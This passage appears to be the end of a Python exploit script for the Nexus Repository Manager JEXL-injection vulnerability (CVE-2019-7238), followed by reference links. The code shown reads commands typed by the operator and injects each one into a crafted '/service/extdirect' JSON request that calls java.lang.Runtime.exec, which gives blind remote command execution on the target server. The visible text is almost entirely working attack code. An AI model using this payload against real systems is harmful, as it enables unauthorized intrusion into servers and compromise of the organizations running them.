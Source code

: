             else:
                command = input("command (not reflected)> ")
                print("[+] Executing command =>", end=' ')
                burp0_url = remote + "/service/extdirect"
                burp0_headers = {"Content-Type": "application/json"}
                burp0_json = {"action": "coreui_Component", "data": [{"filter": [{"property": "repositoryName", "value": "*"}, {"property": "expression", "value": "1==0 or ''.class.forName('java.lang.Runtime').getRuntime().exec(\"" + command + "\")"}, {
                    "property": "type", "value": "jexl"}], "limit": 50, "page": 1, "sort": [{"direction": "ASC", "property": "name"}], "start": 0}], "method": "previewAssets", "tid": 18, "type": "rpc"}
                r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, proxies=proxy,
                                  verify=False, allow_redirects=False)
                checkSuccess(r)
                print('')

        except KeyboardInterrupt:
            print("Exiting...")
            break

参考链接
--------

> https://xz.aliyun.com/t/4136
>
> https://www.jianshu.com/p/34e450debe0f
>
> https://github.com/mpgn/CVE-2019-7238
